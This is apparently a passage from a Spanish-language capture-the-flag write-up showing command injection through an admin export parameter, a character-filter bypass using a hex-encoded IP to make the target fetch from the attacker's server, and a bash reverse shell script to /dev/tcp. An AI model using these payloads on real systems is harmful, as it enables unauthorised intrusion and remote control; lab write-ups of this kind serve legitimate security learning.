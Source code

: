 ```null
000000496:   200        102 L    300 W      13285 Ch    "w"                                                                                                                                             
000000508:   200        101 L    283 W      13164 Ch    "groups"                                                                                                                                        
000000460:   200        103 L    299 W      13359 Ch    "free"                                                                                                                                          
000000515:   200        101 L    285 W      13215 Ch    "id"                                                                                                                                            
000000583:   200        524 L    3274 W     51335 Ch    "ss"                                                                                                                                            
000000764:   200        101 L    288 W      13184 Ch    "date"                                                                                                                                          
000000761:   200        3989 L   4172 W     181091 Ch   "find"                                                                                                                                          
000000847:   200        100 L    282 W      13155 Ch    "life"      
```

Todo lo que reporta son comandos de linux, así que tengo ejecución remota de comandos

```null
curl -H "Cookie: connect.sid=s%3A9fa78360-98ed-11ed-acb1-f148c6fda646.8wGLR4jXSJPq47VB2dINcX2oFYJ2AcGush%2Fozi2dr2w" -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0" 'http://10.10.10.25:8000/admin/export?table=%26whoami'
algernon
```

El problema para entablarte una reverse shell es que muchos caracteres no los permite por la regex que vi antes

Si represento mi IP en hexadecimal si recivo una petición por wget

```null
curl -H "Cookie: connect.sid=s%3A9fa78360-98ed-11ed-acb1-f148c6fda646.8wGLR4jXSJPq47VB2dINcX2oFYJ2AcGush%2Fozi2dr2w" -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0" 'http://10.10.10.25:8000/admin/export?table=%26wget%200x0a0a1006'
```

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.25 - - [20/Jan/2023 18:54:58] "GET / HTTP/1.1" 200 -
```

Por tanto, me creo un archivo revshell que sea un script en bash que me entable la reverse shell

```null
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.6/443 0>&1
```

